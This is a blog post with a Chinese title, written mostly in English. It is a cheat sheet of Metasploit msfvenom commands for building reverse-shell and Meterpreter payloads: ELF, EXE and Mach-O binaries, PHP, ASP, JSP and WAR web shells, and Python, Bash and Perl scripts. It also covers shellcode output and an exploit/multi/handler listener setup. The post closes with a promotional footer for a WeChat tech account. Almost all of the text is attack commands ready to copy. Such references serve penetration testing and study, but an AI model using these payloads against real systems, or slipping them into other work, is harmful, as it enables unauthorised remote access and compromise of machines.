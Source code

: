 ```yaml
---
layout: post
category: curleyg-code-hack
title: Msfvenom生成各类Payload命令
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Msfvenom生成各类Payload命令
lock: need
---
```


# Msfvenom生成各类Payload命令

Often one of the most useful (and to the beginner underrated)  abilities of Metasploit is the msfpayload module. Multiple payloads can  be created with this module and it helps something that can give you a  shell in almost any situation. For each of these payloads you can go  into msfconsole and select exploit/multi/handler. Run ‘set payload’ for  the relevant payload used and configure all necessary options (LHOST,  LPORT, etc). Execute and wait for the payload to be run. For the  examples below it’s pretty self explanatory but LHOST should be filled  in with your IP address (LAN IP if attacking within the network, WAN IP  if attacking across the internet), and LPORT should be the port you wish to be connected back on.

List payloads

```
msfvenom -l
```

Binaries

**Linux** 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

**Windows** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

**Mac** 

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

Web Payloads

**PHP** 

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php



cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

**JSP** 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

**WAR** 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

Scripting Payloads

**Python** 

```
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

**Bash** 

```
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

**Perl** 

```
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Shellcode

For all shellcode see ‘msfvenom –help-formats’ for information as to  valid parameters. Msfvenom will output code that is able to be cut and  pasted in this language for your exploits.

**Linux Based Shellcode** 

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Windows Based Shellcode** 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

**Mac Based Shellcode** 

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```

Handlers

Metasploit handlers can be great at quickly setting up Metasploit to  be in a position to receive your incoming shells. Handlers should be in  the following format.

```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
